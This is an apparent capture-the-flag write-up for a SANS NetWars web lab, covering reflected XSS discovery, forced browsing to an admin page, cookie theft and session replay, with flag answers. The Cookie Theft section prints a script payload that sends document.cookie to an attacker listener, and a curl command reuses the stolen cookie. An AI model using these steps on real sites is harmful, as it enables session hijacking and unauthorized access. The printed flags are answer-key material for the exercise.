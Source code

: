# Contact

* Challenge - Interact with the contact form on the http://www.issplaylist.com website. What is the flag returned as the reference number?
* Points - 3
* Answer - NetWars{ContactFormSubmitted} 

First, I navigated to the website in the question. From there, I clicked Contact in the navbar at the top of the site to go to the contact form. After that, I submitted the form with expected input to get the flag. 

![Contact-2](https://github.com/user-attachments/assets/b6e69b17-d014-40da-a89b-01f74dc2b186)
![Contact-3](https://github.com/user-attachments/assets/2dda7127-bda9-4f27-8425-948b6cbbf6f5)


# Vulnerability Discovery

* Challenge - Explore the Contact page on the http://www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.
* Points - 5
* Answer - Cross-Site Scripting

First, I tried experiemnting with including a ' in the fields to get an SQL error. That did not work, as I got the same flag as the previous challenge. 
![Vulnerability Discovery-2](https://github.com/user-attachments/assets/0e6de2c5-1d7d-4132-9b4d-613c304e6b7c)

Then I tested for an XSS vulnerability by typing the hr HTML tag into each field of the contact form. I noticed the horizontal line from the hr HTML tag was displayed on the page. 
![Vulnerability Discovery-3](https://github.com/user-attachments/assets/f4add8de-bcef-4607-85cd-37f41ae9ea2f)

This means my input was reflected on the page. To confirm this, I viewed the page source, and used CTRL + F to look for my input, the hr HTML tag. The page source shows my input. All of this means that the site is vulnerable to XSS, but specifically reflected XSS. 
![Vulnerability Discovery-4](https://github.com/user-attachments/assets/41bba667-32ad-4ad5-b657-65ed34138328)


# Forced Browsing

* Challenge - Identify the hidden page on the http://www.issplaylist.com server. Submit the page name (XXXXX.html).
* Points - 5
* Answer - admin.html

Typically, admin pages are hidden from normal users. If a web server is misconfigured, you can just go straight to the admin page with a forced browsing attack. From the question, we know the page name is five characters. So I typed issplaylist.com/admin.html in my browser and saw an admin page. 
![Forced Browsing-2](https://github.com/user-attachments/assets/17690325-9e0f-4325-b4b2-1b41ab424daf)

# Cookie Theft

* Challenge - Administrators for the http://www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?
* Points - 5
* Answer - wwwlogincookie

From the Vulnerability Discovery challenge, I know the site is vulnerable to reflected XSS. From Lab 4.4, SANS supplied to us a cookiecatcher PHP file. I started a PHP web server to listen for the cookie.

![Cookie Theft-2](https://github.com/user-attachments/assets/2c7745ff-5355-45e6-b776-8a5f270ba28d)

After starting the listener on my attacker terminal, I went back to the browser. At the contact form, I put the following string in all of the fields then submited the form - <script>document.location='http://10.142.148.12:2222/?'+document.cookie;</script>

![Cookie Theft-3](https://github.com/user-attachments/assets/27d2e9b7-6333-4f3a-9d7d-363310cc713b)


Going back to my attacker terminal, where the cookiecatcher file is running, I can see the name of the stolen cookie. 

![Cookie Theft-4](https://github.com/user-attachments/assets/fb3b55f2-da85-4847-927a-7a633a6b07a5)


# Unauthorized Access

* Challenge - Use the stolen cookie to access the admin page. Submit the flag.
* Points - 5
* Answer - NetWars{AdminAccessIsBest}

Now that I have the cookie for admin from the Cookie Theft challenge, I can use curl and the -b argument to specify a token and return the content of that page as if I were logging in as admin. In my attacker terminal, I ran the following command: 
* curl -b wwwlogincookie=0f186582606b62965d90e772e76a8a5620b11af9 "http://www.issplaylist.com/admin.html"

This returned the admin page output. Scroll down to see the flag. 
![Unauthorized Access-2](https://github.com/user-attachments/assets/922e6443-10d2-454e-bd81-05d523dab0ac)
![Unauthorized Access-3](https://github.com/user-attachments/assets/ee50190d-5dd2-42a7-9b40-7845162253c9)
